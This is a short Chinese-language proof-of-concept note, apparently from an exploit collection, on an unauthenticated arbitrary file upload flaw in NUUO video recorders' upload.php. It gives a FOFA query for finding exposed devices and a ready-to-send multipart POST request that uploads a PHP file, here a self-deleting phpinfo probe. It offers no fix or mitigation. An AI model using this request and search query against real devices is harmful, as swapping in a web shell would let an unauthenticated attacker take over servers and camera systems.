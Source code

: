 # NUUO网络视频录像机upload.php任意文件上传漏洞

NUUO网络视频录像机upload.php任意文件上传漏洞，未经身份验证攻击者可通过该漏洞上传恶意文件，造成服务器沦陷。

## fofa

```javascript
body="www.nuuo.com/eHelpdesk.php"
```

## poc

```javascript
POST /upload.php HTTP/1.1
Host: 
Cache-Control: max-age=0
Accept-Language: zh-CN
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: multipart/form-data; boundary=--------ok4o88lom
accept: */*
Content-Length: 155

----------ok4o88lom
Content-Disposition: form-data; name="userfile"; filename="test.php"

<?php phpinfo();@unlink(__FILE__);?>
----------ok4o88lom--
```

![5c2e597f5b4233b5e694d71104f622e9](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410251439472.jpg)